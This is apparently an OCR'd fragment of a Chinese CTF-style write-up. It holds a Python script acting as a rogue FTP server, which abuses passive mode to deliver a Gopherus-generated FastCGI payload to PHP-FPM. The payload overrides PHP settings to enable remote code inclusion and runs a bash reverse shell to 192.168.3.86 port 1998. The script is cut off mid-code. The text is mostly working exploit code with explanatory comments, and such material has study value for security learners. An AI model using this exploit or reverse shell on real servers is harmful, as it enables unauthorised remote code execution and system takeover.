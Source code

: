 > 接着打 ftp 被动

```python
import socket
from urllib.parse import unquote
​
# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%15%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%27SCRIPT_FILENAME/www/wwwroot/127.0.0.1/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.3.86/1998%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')
​
host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)
​
# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()
​
# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")
​
    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")
​
    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")
​
    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")
​
    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 这里填写自己的IP 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000
​
    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
        # 新建一个socket给服务端返回我们的payload
```